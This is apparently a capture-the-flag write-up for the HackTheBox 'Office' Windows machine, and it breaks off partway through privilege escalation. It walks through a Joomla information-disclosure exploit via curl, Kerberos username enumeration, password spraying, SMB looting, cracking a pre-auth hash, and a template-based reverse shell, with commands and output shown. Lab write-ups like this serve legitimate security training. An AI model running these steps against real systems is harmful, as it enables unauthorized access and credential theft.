





# Office - [HTB](https://app.hackthebox.com/machines/Office)



## Recon

### Nmap
Port     |State |Service|Version
---------|------|-------|-------------------------------------------
53/tcp   |open  |domain |Simple DNS Plus
80/tcp   |open  |http   |httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
88/tcp   |open  |kerberos-sec  |Microsoft Windows Kerberos
139/tcp  |open  |netbios-ssn   |Microsoft Windows netbios-ssn
389/tcp  |open  |ldap          |Microsoft Windows Active Directory LDAP
443/tcp  |open  |ssl/http      |Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
445/tcp  |open  |microsoft-ds? |
464/tcp  |open  |kpasswd5?
593/tcp  |open  |ncacn_http    |Microsoft Windows RPC over HTTP 1.0
636/tcp  |open  |ssl/ldap      |Microsoft Windows Active Directory LDAP
3268/tcp |open  |ldap          |Microsoft Windows Active Directory LDAP
3269/tcp |open  |ssl/ldap      |Microsoft Windows Active Directory LDAP

* Host Script Results:
  ```
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled and required
  | p2p-conficker: 
  |   Checking for Conficker.C or higher...
  |   Check 1 (port 15731/tcp): CLEAN (Timeout)
  |   Check 2 (port 48612/tcp): CLEAN (Timeout)
  |   Check 3 (port 52719/udp): CLEAN (Timeout)
  |   Check 4 (port 54522/udp): CLEAN (Timeout)
  |_  0/4 checks are positive: Host is CLEAN or ports are blocked
  |_clock-skew: 7h55m29s
  | smb2-time: 
  |   date: 2024-04-28T22:53:10
  |_  start_date: N/A
  ```
  I think it will be better if we fix our clock-skew that is almost 8 hours. To do that let's run the following command.

  ```
  $ sudo ntpdate -u 10.10.11.3
  ```

## Enumeration

### HTTP Enumeration

- **Joomla CMS 4.2 - CVE-2023-23752**
  ```
  $ curl http://office.htb/README.txt
  
  Joomla! CMS™
  
  1- Overview
  	* This is a Joomla! 4.x installation/upgrade package.
  	* Joomla! Official site: https://www.joomla.org
  	* Joomla! 4.2 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_4.2_version_history
  	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/4.2-dev
  
  ```
  This version is vulnerable to Unauthenticated information disclosure (CVE-2023-23752) due to Improper access check. So we can access some restricted endpoints.

  
  **Users**
  ```
  $ curl http://office.htb/api/index.php/v1/users?public=true
  
  {"links":{"self":"http:\/\/office.htb\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"474","attributes":{"id":474,"name":"Tony Stark","username":"Administrator","email":"Administrator@holography.htb","block":0,"sendEmail":1,"registerDate":"2023-04-13 23:27:32","lastvisitDate":"2024-04-26 19:43:46","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}}],"meta":{"total-pages":1}}
    ```
  
  **Application Config**
  ```
  $ curl http://office.htb/api/index.php/v1/config/application?public=true
  
  {"links":{"self":"http:\/\/office.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/office.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/office.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Holography Industries","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"root","id":224}},{"type":"application","id":"224","attributes":{"password":"H0lOgrams4reTakIng0Ver754!","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_db","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"if2tx_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
  ```
  
  **Credentials**
  ```
  root:H0lOgrams4reTakIng0Ver754!
  ```
  At a first glance it looks like a credential for the database of the Joomla Service. I tried to login using the cred to Joomla Admin panel no luck there.

### AD Enumeration

Using the above credential I tried to login using SMB, LDAP no luck there too. Because I only possesed one username `Administrator`, having only this will not help. I had a password so I can try password spraying attack on the AD but I needed some valid usernames. 

Because `kerberos` is enabled on the machine it can help us to gather usernames. Because by default I think kerberos authentication on AD returns a unique error for usernames that don't exist.

- **User Enumeration (kerberos)**

  Using [kerbrute by ropnop](https://github.com/ropnop/kerbrute) I tested a list of users against kerberos and tried to find some valid usernames.

  ```
  $ kerbrute userenum --dc dc.office.htb -d office.htb ~/SecLists/Usernames/xato-net-10-million-usernames.txt -o kerbrute.log
  
      __             __               __     
     / /_____  _____/ /_  _______  __/ /____ 
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
   / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
  /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
  
  Version: dev (n/a) - 04/28/24 - Ronnie Flathers @ropnop
  
  2024/04/28 13:08:53 >  Using KDC(s):
  2024/04/28 13:08:53 >  	dc.office.htb:88
  
  2024/04/28 13:09:30 >  [+] VALID USERNAME:	 administrator@office.htb
  2024/04/28 13:12:34 >  [+] VALID USERNAME:	 Administrator@office.htb
  2024/04/28 13:13:57 >  [+] VALID USERNAME:	 ewhite@office.htb
  2024/04/28 13:13:57 >  [+] VALID USERNAME:	 etower@office.htb
  2024/04/28 13:13:58 >  [+] VALID USERNAME:	 dwolfe@office.htb
  2024/04/28 13:13:59 >  [+] VALID USERNAME:	 dlanor@office.htb
  2024/04/28 13:13:59 >  [+] VALID USERNAME:	 dmichael@office.htb
  2024/04/28 13:54:19 >  [+] VALID USERNAME:	 hhogan@office.htb
  ```
  
  Now let's try `netexec` to spray the password using these usernames.

  ```
  $ nxc ldap dc.office.htb -u ad_users.txt -p 'H0lOgrams4reTakIng0Ver754!'      
  
  LDAP        10.10.11.3      389    dc.office.htb    [-] Error retrieving os arch of 10.10.11.3: Could not connect: timed out
  SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
  LDAP        10.10.11.3      389    DC               [-] office.htb\administrator:H0lOgrams4reTakIng0Ver754!
  LDAP        10.10.11.3      389    DC               [-] office.htb\Administrator:H0lOgrams4reTakIng0Ver754!
  LDAP        10.10.11.3      389    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754!
  LDAP        10.10.11.3      389    DC               [-] office.htb\etower:H0lOgrams4reTakIng0Ver754!
  LDAPS       10.10.11.3      636    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754!
  ```

  Looks like I got a match for the user `dwolfe`. Let's enumerate his shares.

- **SMB Enumeration**

  ```
  $ nxc smb dc.office.htb -u 'dwolfe' -p 'H0lOgrams4reTakIng0Ver754!' --shares
  SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
  SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754!
  SMB         10.10.11.3      445    DC               [*] Enumerated shares
  SMB         10.10.11.3      445    DC               Share           Permissions     Remark
  SMB         10.10.11.3      445    DC               -----           -----------     ------
  SMB         10.10.11.3      445    DC               ADMIN$                          Remote Admin
  SMB         10.10.11.3      445    DC               C$                              Default share
  SMB         10.10.11.3      445    DC               IPC$            READ            Remote IPC
  SMB         10.10.11.3      445    DC               NETLOGON        READ            Logon server share
  SMB         10.10.11.3      445    DC               SOC Analysis    READ            
  SMB         10.10.11.3      445    DC               SYSVOL          READ            Logon server share
  ```

  I found an unusual share named `SOC Analysis` let's dump it using `smbclient`.

  ```
  $ smbclient '\\10.10.11.3\SOC Analysis' -U dwolfe -L
  Password for [WORKGROUP\dwolfe]:
  Try "help" to get a list of possible commands.
  smb: \> dir
    .                                   D        0  Wed May 10 13:52:24 2023
    ..                                DHS        0  Wed Feb 14 04:18:31 2024
    Latest-System-Dump-8fbc124d.pcap      A  1372860  Sun May  7 19:59:00 2023
  
  		6265599 blocks of size 4096. 1193500 blocks available
  smb: \> get Latest-System-Dump-8fbc124d.pcap
  getting file \Latest-System-Dump-8fbc124d.pcap of size 1372860 as Latest-System-Dump-8fbc124d.pcap (387.6 KiloBytes/sec) (average 387.6 KiloBytes/sec)
  smb: \> exit
  ```
  Let's analyze the pcap file using wireshark.

- **PCap Analysis**

  

  

- **ASREQRoast - Cracking Pre-Auth Timestamp**
  
  After analyzing the pcap file I found two `AS-REQ`. In a typical kerberos setup the the pre-auth feature is enabled by default. If it is enabled we cannot perform `ASREPRoast` attack. But it opens another vector for an attack. In kerberos when pre-auth is enabled the client encrypts the current timestamp with it's own password as an encryption key. So, if the password is weak enough we can obtain it using `hashcat` by trying to decrypt the `cipher` which is shown in the figure. Here the etype is `18`. So the mode for hashcat would be `19900`. Which depicts Pre-Auth in hashcat's documentation.

  Also I discovered the `cname` object contained `cname-string: tstark` this is the user sending the request. So the user is `tstark@office.htb`. Now let's construct the hash for hashcat.

- **Hashcat**

  Hash
  ```
  $krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
  ```
  Cracked
  ```
  $krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
  ```

## Foothold
I tried the cracked password against the AD but didn't work. But it worked against Joomla Admin Dashboard. Let's try to get a reverse shell on Joomla Dashboard using templates. I got a shell of the `web_account` user.

```
C:\xampp\htdocs\joomla\templates\cassiopeia>whoami
office\web_account

C:\xampp\htdocs\joomla\templates\cassiopeia>
```

The `htdocs` folder contained anothe directory named `internal` besides `joomla`.

```
C:\xampp\htdocs>dir
 Volume in drive C has no label.
 Volume Serial Number is C626-9388

 Directory of C:\xampp\htdocs

05/09/2023  07:53 AM    <DIR>          .
01/24/2024  05:08 AM    <DIR>          ..
05/09/2023  07:53 AM    <DIR>          administrator
01/30/2024  09:39 AM    <DIR>          internal
04/30/2024  07:15 AM    <DIR>          joomla
               0 File(s)              0 bytes
               5 Dir(s)   5,044,477,952 bytes free

C:\xampp\htdocs>
```

One file seemed interesting inside the internal directory. It was `resume.php`.

```
C:\xampp\htdocs\internal>dir
 Volume in drive C has no label.
 Volume Serial Number is C626-9388

 Directory of C:\xampp\htdocs\internal

01/30/2024  09:39 AM    <DIR>          .
05/09/2023  07:53 AM    <DIR>          ..
02/14/2024  06:35 PM    <DIR>          applications
05/01/2023  04:27 PM    <DIR>          css
05/01/2023  04:27 PM    <DIR>          img
01/30/2024  09:38 AM             5,113 index.html
01/30/2024  09:40 AM             5,282 resume.php
               2 File(s)         10,395 bytes
               5 Dir(s)   5,038,227,456 bytes free

```

**resume.php**

```
<?php
$notifi = "";
if($_SERVER["REQUEST_METHOD"] == "POST" ){
  $stdname=trim($_POST['fullname']);
  $email=str_replace('.','-',$_POST['email']);
  $experience=trim($_POST['experience']);
  $salary=trim($_POST['salary']);
  $department=trim($_POST['department']);
  $rewritefn = strtolower(str_replace(' ','-',"$stdname-$department-$salary $experience $email"));
  
  $filename =$_FILES['assignment']['name'];
  $filetype= $_FILES['assignment']['type'];
  $filesize =$_FILES['assignment']['size'];
  $fileerr = $_FILES['assignment']['error'];
  $filetmp = $_FILES['assignment']['tmp_name'];
  chmod($_FILES['assignment']['tmp_name'], 0664);
  // onigiri in .
 $ext = explode('.',$filename);
  //last piece of data from array
 $extension = strtolower(end($ext));
  $filesallowed = array('docm','docx','doc','odt');
   if(in_array($extension,$filesallowed)){
     if ($fileerr === 0){
       if ($filesize < 5242880){
	 $ff = "$rewritefn.$extension";
	 $loc = "applications/".$ff;
	   if(move_uploaded_file($filetmp,$loc))
	   {
	     // upload successful
	     $notifi="<span class=notifi>✔ Upload Successful!</span><hr/><style>
	       button, input , select, option, h3{
			display:none;
		}
	       </style>";
	 } else {
echo $loc;
	 $notifi="<span class=notifi>✖️  Something Went Wrong! Unable To upload the Resume!</span><hr/>";
	 }
       
       } else {
	 
	 $notifi="<span class=notifi>⚠️  Your Resume should be less than 5MB!</span><hr/>";
       }
     
     } else {
   $notifi="<span class=notifi>✖️  Corrupted File/Unable to Upload!</span><hr/>";
     }
   
   } else {
   $notifi="<span class=notifi>❌ Accepted File Types : Doc, Docx, Docm, Odt!</span><hr/>";
   }
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
	<link rel="shortcut icon" href="https://www.pinclipart.com/picdir/big/344-3445944_png-file-svg-terminal-icon-png-clipart.png">
  <title>Resume Submission</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
<style type="text/css">
body{
height:100%;
overflow:auto;
}
.notifi{
font-weight:bold;
padding:0px;
}
.notifi hr{
background:#000000;
height:2px;
}
.magic{
margin-top:0.5%;
max-height:90%;
max-width:90%;
border: 2px solid #000000;
}
.inpstylef{
border-bottom: 2px solid #000000;
padding:0.5%;
font-size:14px;
font-weight:bold;
}
.inputstyle ,.inpstyles {
width:69%;
height:35px;
border:2px solid #000000;
}
.inpstylef::-webkit-file-upload-button {
  visibility: hidden;
}
.inpstylef::before {
  content: '  ';
  display: inline-block;
  border: 1px solid #999;
  border-radius: 3px;
  padding: 5px 8px;
  outline: none;
  white-space: nowrap;
  -webkit-user-select: none;
  cursor: pointer;
  text-shadow: 1px 1px #fff;
  font-weight: 700;
  font-size: 10pt;
}
::placeholder{
color:#151715;
opacity:1;
font-weight:bold;
}
.magic h3{
    text-align: left;
    padding-left: 260px;

}
</style>  
</head>
<body>
  <center>
    <div class="magic">
      <h1> Job Application Submission</h1>
	<hr style="width:inherit;padding:0px;height:2px; background:#000000"/>
	<span class="notifi"><?php echo "$notifi"; ?></span>
      <form action="" method="post" enctype="multipart/form-data">
        <h3>Full Name:</h3>
        <input class="inputstyle" type="text" name="fullname" placeholder="Example : John Doe" required>
        <h3>Email:</h3>
        <input class="inputstyle" type="email" name="email" placeholder=" Example : xxx123@xyz.abc" required>
        <h3>Work Experience</h3>
        <select id="" style="background:#151715; color:#ffffff; font-weight:bold"  class="inpstyles" name="experience" required>
          <option class="inpstyl">0-5 years</option>
          <option class="inpstyl">10-20 years</option>
          <option class="inpstyl">20-30 years</option>
	</select><br/>      
	  <h3>Requested Salary</h3>
        <select id="" class="inpstyles" style="background:#151715; color:#ffffff; font-weight:bold" name="salary" required>
          <option value="30 000" class="inpstyl">30 000$</option>
          <option value="60 000" class="inpstyl">60 000$</option>
          <option value="80 000" class="inpstyl">80 000$</option>
          <option value="100 000" class="inpstyl">100 000$</option>
          <option value="200 000" class="inpstyl">200 000$</option>
          <option value="300 000" class="inpstyl">300 000$</option>
        </select><br/><br/>
	 <h3>Choose Your Department</h3>
        <select id="" class="inpstyles"style="background:#151715; color:#ffffff; font-weight:bold"  name="department" required>
          <option value="IT" class="inpstyl">IT</option>
          <option value="Sales" class="inpstyl">Sales</option>
          <option value="Management" class="inpstyl">Management</option>
        </select> 
        <br>
        <br><div style="display:flex; flex-direction:column;  align-items: center;justify-content: center;">
	 <h3 style="padding-left:50px" >Upload Resume:</h3>
        <input id="" class="inpstylef" type="file" name="assignment"></div>
        <br>
        <br>
        <br>
        <button type="submit" style="margin-bottom:15px; color:#ffffff; background:#151715; width:50%; font-weight:bold ;height:35px" name="submit">Upload Resume</button>
      </form>
    </div>
  </center>
  
</body>
</html> 
```

## Privilege Escalation

Using `RunasCs.exe` I was able to get `tstark`'s shell and found the user flag.

```
C:\Users\tstark\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C626-9388

 Directory of C:\Users\tstark\Desktop

04/29/2024  02:40 AM    <DIR>          .
01/18/2024  11:33 AM    <DIR>          ..
04/29/2024  02:40 AM             7,168 a.exe
04/28/2024  09:59 PM                34 user.txt
               2 File(s)          7,202 bytes
               2 Dir(s)   4,989,374,464 bytes free

C:\Users\tstark\Desktop>
```

After a lot of enumeration I found some open ports on the box.

```
C:\Users\tstark\Downloads>netstat -ano | findstr "LISTENING"
netstat -ano | findstr "LISTENING"

TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4612
TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       920
TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4612
TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       920
TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       7116
TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       352
TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:8083           0.0.0.0:0              LISTENING       4612
TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2916
TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       544
TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1172
TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1560
TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       2260
TCP    0.0.0.0:55479          0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:55485          0.0.0.0:0              LISTENING       684
TCP    0.0.0.0:55495          0.0.0.0:0              LISTENING       664
TCP    0.0.0.0:60177          0.0.0.0:0              LISTENING       7220
TCP    0.0.0.0:60180          0.0.0.0:0              LISTENING       7244
TCP    10.10.11.3:53          0.0.0.0:0              LISTENING       7220
TCP    10.10.11.3:139         0.0.0.0:0              LISTENING       4
TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       7220
TCP    [::]:80                [::]:0                 LISTENING       4612
TCP    [::]:88                [::]:0                 LISTENING       684
TCP    [::]:135               [::]:0                 LISTENING       920
TCP    [::]:443               [::]:0                 LISTENING       4612
TCP    [::]:445               [::]:0                 LISTENING       4
TCP    [::]:464               [::]:0                 LISTENING       684
TCP    [::]:593               [::]:0                 LISTENING       920
TCP    [::]:3306              [::]:0                 LISTENING       7116
TCP    [::]:3389              [::]:0                 LISTENING       352
TCP    [::]:5985              [::]:0                 LISTENING       4
TCP    [::]:8083              [::]:0                 LISTENING       4612
TCP    [::]:9389              [::]:0                 LISTENING       2916
TCP    [::]:47001             [::]:0                 LISTENING       4
TCP    [::]:49664             [::]:0                 LISTENING       684
TCP    [::]:49665             [::]:0                 LISTENING       544
TCP    [::]:49666             [::]:0                 LISTENING       1172
TCP    [::]:49667             [::]:0                 LISTENING       1560
TCP    [::]:49668             [::]:0                 LISTENING       684
TCP    [::]:49670             [::]:0                 LISTENING       2260
TCP    [::]:55479             [::]:0                 LISTENING       684
TCP    [::]:55485             [::]:0                 LISTENING       684
TCP    [::]:55495             [::]:0                 LISTENING       664
TCP    [::]:60177             [::]:0                 LISTENING       7220
TCP    [::]:60180             [::]:0                 LISTENING       7244
TCP    [::1]:53               [::]:0                 LISTENING       7220
```

Port `8083` seemed to run a a `internal http service` I previously found.

```
C:\Users\tstark\Downloads>curl -X GET 127.0.0.1:8083
curl -X GET 127.0.0.1:8083
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="css/squarely.css">
    <!--common.css  -->
      <link rel="stylesheet" href="css/common.css">
    <title>Holography Industries</title>
  </head>
  <body>
  <!--navbar -->
    <nav class="navbar navbar-expand-lg navbar-dark bg-primary">
      <a class="navbar-brand" href="#">Business</a>
      <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
        <span class="navbar-toggler-icon"></span>
      </button>
      <div class="collapse navbar-collapse" id="navbarNav">
        <ul class="navbar-nav ml-auto">
          <li class="nav-item active">
            <a class="nav-link" href="#">Home <span class="sr-only">(current)</span></a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="resume.php">Submit Application</a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="#">Services</a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="#">About</a>
          </li>
        </ul>
      </div>
    </nav>

    <div class="hero-header" style="background-image: url('img/business.jpg')">
        <div class="header">
            <h1>Holography Industries</h1>
            <p>World leader in Holographic Technologies</p>
        </div>
    </div>

    <!--main content-->
    <div class="container mb-4 mt-4">
        <div class="row">
            <div class="col-md-8 mb-3">
                <h2>About us</h2>
                <hr>
                <p>We are all incredibly passionated about holograms at Holography Industries. We strongly believe that we are contributing to a brighter future for humanity.</p>
                <p>Life's all about evolution : And we are doing just that.</p>
                <a href="#" class="btn btn-primary">Make a Phone call</a>
            </div>
            <div class="col-md-4 align-items-center d-md-flex">
                
            </div>
        </div>
    </div>

        <!--3 cards-->
    <div class="container-fluid mb-4">
        <div class="row bg-light p-md-5">
            <div class="col-md-4 mb-3">
                <div class="card">
                    
                    <div class="card-body">
                        <h3>Know more about us</h3>
                        <p>Our Offices are currently all located in New York. If you would like to work with us, pay us a visit!</p>
                    </div>
                    <div class="card-footer">
                        <button class="btn btn-primary">Find out more!</button>
                    </div>
                </div>
            </div>
            <div class="col-md-4 mb-3">
                <div class="card">
                    
                    <div class="card-body">
                        <h3>What we do?</h3>
                        <p>Just a bunch of passionate engineers trying to make the world a better place for everyone!</p>
                    </div>
                    <div class="card-footer">
                        <button class="btn btn-primary">Find out more!</button>
                    </div>
                </div>
            </div>
            <div class="col-md-4 mb-3">
                <div class="card">
                    
                    <div class="card-body">
                        <h3>Contact Us</h3>
                        <p>You can either contact us by email or by phone. HolographyTech@HolographyTechnologies.htb | 514-000-000</p>
                    </div>
                    <div class="card-footer">
100  5113  100  5113    0     0  1492k      0 --:--:-- --:--:-- --:--:-- 1664k
utton class="btn btn-primary">Find out more!</button>
                    </div>
                </div>
            </div>
        </div>
    </div>

    <!--footer-->
